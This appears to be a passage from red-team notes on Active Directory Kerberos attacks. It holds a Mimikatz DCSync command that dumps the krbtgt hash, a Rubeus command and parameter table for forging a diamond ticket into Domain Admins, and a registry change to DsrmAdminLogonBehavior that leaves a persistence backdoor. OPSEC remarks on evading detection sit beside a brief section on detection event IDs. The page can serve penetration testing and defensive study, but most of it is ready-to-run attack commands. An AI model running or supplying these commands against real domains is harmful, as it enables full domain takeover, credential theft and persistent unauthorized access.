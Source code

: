 We can dump DC database using DCSync by crafting a silver ticket with the `LDAP` SPN.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /dc:dc01.corp.local /domain:corp.local /user:krbtgt"'
```

## Mitigation

While creating a silver ticket the attacker creates some events in logs:

* Event ID **4624**: Account Logon
* Event ID **4634**: Account Logoff
* Event ID **4672**: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
> **RedTeam Note**: Silver Ticket is very hard to be detected.

# Diamond Ticket

A golden ticket is forged completely offline, encrypted with the krbtgt hash, and then passed into a logon session for use. Because DCs don't track if a TGT have been legitimately issued,they will accept TGTs that are encrypted with its own krbtgt hash.

Like a golden ticket, a diamond ticket can be used to access any services as any user.

A **diamond ticket** is made by modifying the fields of a legitimate TGT that was issued by a DC. This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. So:

* TGS-REQs will have a preceding AS-REQ.
* The TGT was issued by DC which means it will have all the correct details from the domain's kerberos policy.

> **OPSEC Alert** `Diamond Ticket` is more silent than `Golden Ticket`.

```
.\Rubeus.exe diamond /tgtdeleg /ticketuser:jdoe /ticketuserid:1106 /gorups:512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap
```

| **Parameter** | **Description**                                                                                            |
|:-------------:|------------------------------------------------------------------------------------------------------------|
|   /tgtdeleg   | Uses the Kerberos GSS-API to obtain a useable TGT for the user.                                            |
|  /ticketuser  | Username to impersonate                                                                                    |
| /ticketuserid | Domain RID of that principal. Can be obtained with:  `Get-DomainUser -Identity jdoe -Properties objectsid` |
|    /groups    | Desired group RID (512 - Domain Admins).                                                                   |
|    /krbkey    | krbtgt AES256 hash                                                                                         |

We can check that the TGT has been modified with `describe`:

```
.\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=
```


[corp-dc]: PS C:\Users\Administrator\Documents> New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD